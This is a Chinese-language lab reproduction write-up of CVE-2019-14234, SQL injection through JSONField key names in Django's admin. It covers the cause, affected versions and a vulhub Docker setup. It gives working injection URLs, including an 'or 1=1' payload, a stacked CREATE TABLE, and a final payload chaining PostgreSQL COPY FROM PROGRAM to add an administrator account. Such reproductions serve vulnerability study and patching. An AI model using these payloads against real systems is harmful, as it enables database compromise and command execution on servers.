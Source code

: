 # （CVE-2019-14234）Django JSONField sql注入漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2886](https://www.zhihuifly.com/t/topic/2886)

# （CVE-2019-14234）Django JSONField sql注入漏洞

## 一、漏洞简介

该漏洞需要开发者使用了JSONField/HStoreField，且用户可控queryset查询时的键名，在键名的位置注入SQL语句。

Django通常搭配postgresql数据库，而JSONField是该数据库的一种数据类型。该漏洞的出现的原因在于Django中JSONField类的实现，Django的model最本质的作用是生成SQL语句，而在Django通过JSONField生成sql语句时，是通过简单的字符串拼接。

通过JSONField类获得KeyTransform类并生成sql语句的位置。

其中key_name是可控的字符串，最终生成的语句是WHERE (field->'[key_name]') = 'value'，因此可以进行SQL注入。

## 二、漏洞影响

1.11.x before 1.11.23

2.1.x before 2.1.11

2.2.x before 2.2.4

## 三、复现过程

### 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/django/CVE-2019-14234/
docker-compose up -d 
```

### 漏洞利用

#### 1、登录后台

http://ip:8000/admin/vuln/collection/

#### 2、构造URL进行查询

http://ip:8000/admin/vuln/collection/?detail__a%27b=123

![image](img/34c875f4a044e1cef87230f4356fa07e.png)

可以看到已经注入成功，并且可以看到构造的SQL语句

为进一步验证注入语句，我们继续构造

```
http://ip:8000/admin/vuln/collection/?detail__title')='1' or 1=1-- 
```

后台生成的sql语句的关键部分是

```
WHERE ("vuln_collection"."detail" -> 'title')='1' or 1=1-- ') = %s 
```

由于or 1=1永为真，因此应该返回所有结果，页面返回结果符合预期，如下图

![image](img/eab8468dd2ef055014fe5e37aee6a26c.png)

下一步结合CVE-2019-9193我们尝试进行命令注入，构造url如下

```
http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcreate table cmd_exec(cmd_output text)--%20 
```

页面结果虽然报错，但是报错原因是no results to fetch，说明我们的语句已经执行

![image](img/f315c629d55e7fb03ceb93bbf1d46386.png)

最终payload

```
http://ip:8000/admin/vuln/collection/?detail__title')%3d'1' or 1%3d1 %3bcopy cmd_exec FROM PROGRAM 'net user admin admin /add'--%20 
```